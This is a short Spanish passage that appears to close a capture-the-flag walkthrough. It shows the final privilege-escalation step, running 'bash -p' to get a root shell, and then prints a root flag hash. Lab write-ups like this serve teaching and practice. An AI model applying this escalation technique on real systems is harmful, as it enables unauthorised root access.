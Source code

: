 Vemos que ha funcionado, por lo que haremos lo siguiente:

```shell
bash -p
```

Info:

```
bash-5.2# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la flag de `root`:

> root.txt

```
d5a28ab3b2fe6d8191eb01fc3a76f5cb
```
